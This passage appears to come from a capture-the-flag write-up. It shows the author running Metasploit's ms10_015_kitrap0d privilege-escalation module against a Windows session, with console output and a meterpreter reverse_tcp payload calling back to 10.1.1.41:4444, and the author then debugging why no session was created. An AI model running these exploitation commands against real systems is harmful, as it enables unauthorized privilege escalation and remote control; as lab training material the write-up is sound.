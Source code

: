 ### MS10-015

I’ll give `exploit/windows/local/ms10_015_kitrap0d` a run.

```

msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)

```

I’ll set the session to 1, and then run it… and it fails:

```

msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.1.1.41:4444
[*] Launching notepad to host the exploit...
[+] Process 2672 launched.
[*] Reflectively injecting the exploit DLL into 2672...
[*] Injecting exploit into 2672 ...
[*] Exploit injected. Injecting payload into 2672...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.

```

If I run `options`, I’ll see why:

```

msf5 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.1.1.41        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
```